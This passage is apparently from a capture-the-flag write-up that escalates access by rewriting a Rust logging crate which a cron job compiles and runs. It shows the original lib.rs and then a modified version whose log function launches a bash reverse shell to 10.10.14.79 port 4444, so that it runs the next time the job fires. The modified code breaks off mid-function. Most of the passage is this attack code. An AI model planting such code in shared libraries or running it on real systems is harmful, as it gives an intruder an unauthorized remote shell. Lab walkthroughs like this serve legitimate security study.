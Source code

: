 Okay. Figured out what is going on. It's complicated...

First interesting thing is at /opt/crates/logger/src. There is a file called `lib.rs`
If it is not there, you need to run tipnet in the directory /opt/tipnet/target/debug/

Select option e to recreate the lib.rs file. 

From here we can view said file:
```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}

```
Basically, there is a cron job that is running this script to write information to a log file. After running Tipnet with the e command, we are able to write our own code. I've changed the code to be the following:
```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.79/4444 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);

        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
```